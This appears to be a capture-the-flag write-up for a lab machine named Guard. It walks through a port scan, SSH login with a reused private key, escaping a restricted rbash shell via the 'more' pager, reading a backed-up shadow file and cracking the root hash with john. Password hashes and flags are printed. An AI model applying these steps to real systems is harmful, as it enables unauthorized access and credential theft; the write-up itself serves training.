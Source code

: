 # Starting Point - Guard

## Enumeration

```
rustscan 10.10.10.50 -- -sC -sV -o port_scans

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2a:64:23:e0:a7:ec:1d:3b:f0:63:72:a7:d7:05:57:71 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkcOfIguCL3HiluPAL9xLs0SKg0qvvnkO6iBLb/l9rmrN2ECvvce+E8S2gyZdm4pcgOBWfCYrwVPLxvc8nvpPZPSZ1LGfW5eoGwHdklIGAMgD0QtcphvoUuYowb+ZKNoXgq3Cj3EBP49HYHuHdYTQrWkzIJxKcOKQhX6Z4ayJxVL4jwUMKSVmn9kil5LvB4rrQNA4nnhF5F2LgCLBc/3clgwf+gPep6OLq0xuIf5S0bUTKZ/1Okg6dOxcIc2P3SRYxYyhfr8lP8g4/fid2seamTv9rmE3ilQq0iBj4fnVlY5jzI5m6EOGwdM84OiXsJZmHEPDwDcqmaMhYec1U953R
|   256 b3:86:5d:3d:c9:d1:70:ea:d6:3d:36:a6:c5:f2:be:5d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMX3kqpY2ndXnsNY12RKRvy9tI69L4rrhFk1vims0B37Ju5YZ4Q5N+RV/ts7rvuKwUueCeH0AWEmE9oV3TsSG3k=
|   256 c0:5b:13:0f:d6:e6:d1:71:2d:55:e2:4a:e2:27:0e:c2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ9AJZ5v4FPferUM/c7u+T8W9N8zrGAjanwazh65aZnP
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Apparently, only the SSH port is open. As we have no other information given and previous machines have shown, that information from other machines must be re-used, we can try to connect as daniel (as we have his private ssh key).

And it works! We are user `daniel`

```
daniel@guard:~$ id
uid=1000(daniel) gid=1000(picasso) groups=1000(picasso),27(sudo)
```

## Exploitation

Having access to Daniel's home directory, we can directly read the user flag. But hmmm ... somehow `cat` does not give any output. I seems like some commands were modified. However, `more` works perfectly fine. User flag: `209333652507f89d0d3a41ff4070c081`


Let's look for some privilege escalation!

We start by searching for files with SUID bit set:

```
daniel@guard:~$ find / -perm -u=s -type f 2>/dev/null
-rbash: /dev/null: restricted: cannot redirect output
```

Weird! Something strange is happening with our shell. Let's investigate that.

Looking at the `/etc/passwd` file, we can see that our current user has `rbash` as default shell.

```
daniel:x:1000:1000:picasso:/home/picasso:/bin/rbash
```

As I've personally never heard of it, I must first understand what this is and do some research.

```
RBASH(1)                                                                     General Commands Manual                                                                     RBASH(1)

NAME
       rbash - restricted bash, see bash(1)

RESTRICTED SHELL
       If  bash  is  started  with the name rbash, or the -r option is supplied at invocation, the shell becomes restricted.  A restricted shell is used to set up an environment
       more controlled than the standard shell.  It behaves identically to bash with the exception that the following are disallowed or not performed:

       ·      changing directories with cd

       ·      setting or unsetting the values of SHELL, PATH, ENV, or BASH_ENV

       ·      specifying command names containing /

       ·      specifying a filename containing a / as an argument to the .  builtin command

       ·      specifying a filename containing a slash as an argument to the -p option to the hash builtin command

       ·      importing function definitions from the shell environment at startup

       ·      parsing the value of SHELLOPTS from the shell environment at startup

       ·      redirecting output using the >, >|, <>, >&, &>, and >> redirection operators

       ·      using the exec builtin command to replace the shell with another command

       ·      adding or deleting builtin commands with the -f and -d options to the enable builtin command

       ·      using the enable builtin command to enable disabled shell builtins

       ·      specifying the -p option to the command builtin command

       ·      turning off restricted mode with set +r or set +o restricted.

       These restrictions are enforced after any startup files are read.

       When a command that is found to be a shell script is executed, rbash turns off any restrictions in the shell spawned to execute the scrip
```

Apparently, that is some kind of restricted shell, that's highly limiting our functionalities. 

However, it does not prevent us from spawning a bash shell from within another program. I first tried it from within vim/vi, but it's disabled. Then I remembered a cool trick from the [OverTheWire Bandit](https://overthewire.org/wargames/bandit/) Wargame. If you manage to make your terminal as small as possible and open anything with `more`, then you get following:

![](pics/more_trick.png)

From here, you can execute commands as such:

![](pics/command_more.png)

And now we've escaped the rbash environment!

```
daniel@guard:~$ cd ..
daniel@guard:/home$ pwd
/home
daniel@guard:/home$ 
```

Enumerating the system, I found some interesting backups in the `/backups` directory, namely a backup of the shadow file, for which we have read permissions.

```
root:$6$KIP2PX8O$7VF4mj1i.w/.sIOwyeN6LKnmeaFTgAGZtjBjRbvX4pEHvx1XUzXLTBBu0jRLPeZS.69qNrPgHJ0yvc3N82hY31:18334:0:99999:7:::
daniel:$6$2EEJjgy86KrZ.cbl$oCf1MzIsN7N9KziBNo7uYrHLueZLM7wySrsFYxlNtO5NVhfVsyWCSKiIURNUxOOwC0tm1kyQsiv93imCwLM0k1:18326:0:99999:7:::
```

Let's copy it to our local machine and let `john` try to crack the passwords for daniel, or in the best case for root. If we get the password for daniel, then we can atleast check if he is on the sudoers list.

Yes! John is successful in cracking the root password!

```
$ john shadow -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status

password#1       (root)
```

Now we can log in as root and obtain the root flag.

Root flag: `386ca63de3e5fd7df6b6212a0430f681`